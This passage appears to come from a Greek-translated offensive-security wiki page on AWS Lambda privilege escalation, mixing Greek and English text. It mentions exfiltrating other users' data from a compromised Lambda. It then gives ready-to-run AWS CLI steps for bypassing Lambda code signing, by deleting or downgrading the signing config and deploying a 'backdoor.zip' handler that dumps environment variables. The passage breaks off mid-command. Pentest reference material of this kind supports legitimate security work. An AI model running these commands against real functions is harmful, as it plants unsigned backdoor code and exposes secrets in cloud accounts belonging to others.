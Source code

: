 Ίσως με αυτά τα δικαιώματα να μπορείτε να δημιουργήσετε μια function και να την εκτελέσετε καλώντας το URL... αλλά κατάφερα να βρω τρόπο να το δοκιμάσω, οπότε ενημερώστε με αν το κάνετε!

### Lambda MitM

Κάποιες lambdas θα **λαμβάνουν ευαίσθητες πληροφορίες από τους χρήστες ως παραμέτρους.** Αν αποκτήσετε RCE σε μία από αυτές, μπορείτε να exfiltrate τις πληροφορίες που άλλοι χρήστες στέλνουν σε αυτή — δείτε το στο:

{{#ref}}
../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md
{{#endref}}

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)





### `lambda:DeleteFunctionCodeSigningConfig` or `lambda:PutFunctionCodeSigningConfig` + `lambda:UpdateFunctionCode` — Bypass Lambda Code Signing

If a Lambda function enforces code signing, an attacker who can either remove the Code Signing Config (CSC) or downgrade it to Warn can deploy unsigned code to the function. This bypasses integrity protections without modifying the function's IAM role or triggers.

Permissions (one of):
- Path A: `lambda:DeleteFunctionCodeSigningConfig`, `lambda:UpdateFunctionCode`
- Path B: `lambda:CreateCodeSigningConfig`, `lambda:PutFunctionCodeSigningConfig`, `lambda:UpdateFunctionCode`

Notes:
- For Path B, you don't need an AWS Signer profile if the CSC policy is set to `WARN` (unsigned artifacts allowed).

Steps (REGION=us-east-1, TARGET_FN=<target-lambda-name>):

Prepare a small payload:
```bash
cat > handler.py <<'PY'
import os, json
def lambda_handler(event, context):
return {"pwn": True, "env": list(os.environ)[:6]}
PY
zip backdoor.zip handler.py
```
Διαδρομή A) Αφαιρέστε CSC και στη συνέχεια ενημερώστε το code:
```bash
aws lambda get-function-code-signing-config --function-name $TARGET_FN --region $REGION && HAS_CSC=1 || HAS_CSC=0
if [ "$HAS_CSC" -eq 1 ]; then
aws lambda delete-function-code-signing-config --function-name $TARGET_FN --region $REGION
fi
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://backdoor.zip --region $REGION
# If the handler name changed, also run:
aws lambda update-function-configuration --function-name $TARGET_FN --handler handler.lambda_handler --region $REGION
```
Διαδρομή B) Μειώστε σε Warn και ενημερώστε τον κώδικα (εάν το delete δεν επιτρέπεται):
```bash
CSC_ARN=$(aws lambda create-code-signing-config \
--description ht-warn-csc \
```
